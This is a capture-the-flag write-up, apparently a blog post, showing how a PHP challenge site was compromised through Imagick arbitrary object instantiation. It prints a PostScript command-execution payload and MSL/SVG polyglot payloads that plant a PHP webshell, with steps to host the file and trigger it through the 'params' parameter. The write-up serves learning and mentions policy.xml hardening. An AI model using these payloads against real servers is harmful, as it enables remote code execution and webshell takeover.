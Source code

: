 #PHP & Arbitrary Object Instantiation
The September 2022 CTF released by @leonjza from Orange Cyberdefense was challenging, informative and a lot of fun. The challenge context was PHP and Code Execution via Arbitrary Object Instantiation, but I wont give away the ending quite yet.

I encourage you to first try it out, the URL is https://goldfish-tj6gf.ondigitalocean.app/index.html.

##The Eagle has landed
The landing page greets you with a few UI components, a file upload selector, a dropdown to select a size value between 1 and 4, a "send" button to upload the file and a link at the bottom labelled "Check DB".
![Landing page](Landing_page.png)

Uploading an image does not display your selected image, but it does open *an* image. 
![Upload page](upload_image.png)

Take note of the URI in the address bar - it is very important as it includes a clue as to the underlying code used to manipulate the images, the URI is "image.php?module=**Imagick**&params=NULL&size=1". A Google search for **Imagick** produces quite a few results, and we are on the track to discover our solution. 
ImageMagick is a library that can be used to manipulate images and PDF's via code on the server.

Funnily enough the evening I started the challenge,I saw on twitter someone had posted an Imagick RCE payload, and the stage was set..... wait Mr. Rabbit I'm on my way...

The payload for a single gif or jpg file is..
(Keep this one in your list of payloads to try, it may work under other circumstances)
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%COMMAND_OF_CHOICE) currentdevice putdeviceprops
```

After emerging from this detour, I was actually quite grateful for it, because of what I had managed to learn about ImageMagick. ImageMagick has a policy.xml file and this is very important to the security of a website. In this policy you can set many aspects of how ImageMagick processes files, but one of them is, which **coders** can run, as shown below.

```<policy domain="coder" rights="write" pattern="PS"/>```

The rights can be set to be "read" and/or "write" or "none" for each type of coder. Link to documentation: https://imagemagick.org/script/security-policy.php 

Due to this my payload was not being run and it kept throwing an error about the "PS" coder being blocked.

##File inception
One of the many google results pointed me in the direction of a polgyglot MSL(Magick Scripting Lanaguage) file, this is almost equivalent to a file within a file, something similar to an html file that references an xml file, which happens to be embedded in the original html file. Link to website: https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016.html

An msl file in ImageMagick is a scripting file that can run within the ImageMagick context. Link to documentation: https://imagemagick.org/script/conjure.php#msl

The RCE capability comes in where we can embed an msl file within an svg file. Once an instance of Imagick is instantiated using the svg file it will reference the msl file, as seen in the website link above.

There is however one caveat, the file needs to know its own location and name, so it can be referenced directly on the filesystem.
For example if you upload the file to /uploads/myimage.svg then you would need to reference it in the svg file as xlink:href="/var/www/html/uploads/myimage.svg". 

An example would be
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
  <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="/var/www/html/uploads/myimage.svg" height="1" width="1"/>
  </svg>
</image>
```
In the above payload we see the svg tags located within the image tags, and ImageMagick handles that without a problem. The SVG file will reference the msl file(itself) and then run the image part of it which will write a webshell payload to the path of your choosing.

However, in the challenge the files are saved to the /tmp directory using a randomized name so this is not possible.
A bit more reading and I discovered this link https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/ which gave me the correct way forward. ImageMagick has a vid scheme which can reference files without knowing the exact name. Please go to the link above as it explains in more detail how the vid scheme works.

Now all we need, is to find a way of referencing our svg file name at least partially. When the file is uploaded and processed it creates a temporary file in the /tmp directory as I mentioned, and the file name is always prepended with **magick-** and so we can settle on a final payload as shown below.

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
 <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="vid:msl:/tmp/magick*" height="1" width="1"/>
 </svg>
</image>
```
##But uploading the file doesn't work!!
If you just upload the payload, no webshell will be created due to the code in the upload php file (you can take a look shortly when you have your webshell :)). The object instantiation is only triggered when you use the "params" parameter in the URI of the image.php page. By using the parameters to construct an instance of Imagick in PHP, we can control which file is used in the constructor via the "params" value and this is processed lower down the code chain as explained in the link(https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

You can get more information on the Imagick constructor at the documentation link : https://www.php.net/manual/en/imagick.construct.php.

Hosting the file and then referencing it from that location will cause the file to be downloaded. This will cause the webshell to be written to your chosen path, keep in mind the webshell will have to be accessible from the web.
We need to figure out the path of the web site root folder. I did this by forcing an error, one way is to leave the "params" without a value, this gives us an error message and so after a few attempts we find that the correct path to write the webshell to is /var/www/html. 
Now all we need to do is change the webshell path and change the "params" to our hosted image path, ie "image.php?module=Imagick&params=**http:// {example.com}/{your svg file}**&size=1".

##LIGHTS,CAMERA...ACTION!!
The result of a *successful* upload is a new error page.
![RCE success](upload_successful.png)

But typing in the path to your webshell file will load the previously non-existant page. WELL DONE!!
Your webshell works!

##Let's get that FLAG!!! 
Running the ls command, we see a few files in the web directory.
![Listing](listing.png)

**(Mini challenge can you find the flag! go for it!).**

After printing out the lisitng of the files, we almost ignore the "Dockerfile" file, however this is where the clue lies.
![Dockerfile](Dockerfile.png)

Printing out that file reveals the location of our flag:
```ARG flag_value ENV FLAG ${flag_value}```

Finally we run the "env" command and there it is, in an entry called "FLAG=".

Thank You @leonjza for the opportunity to learn.
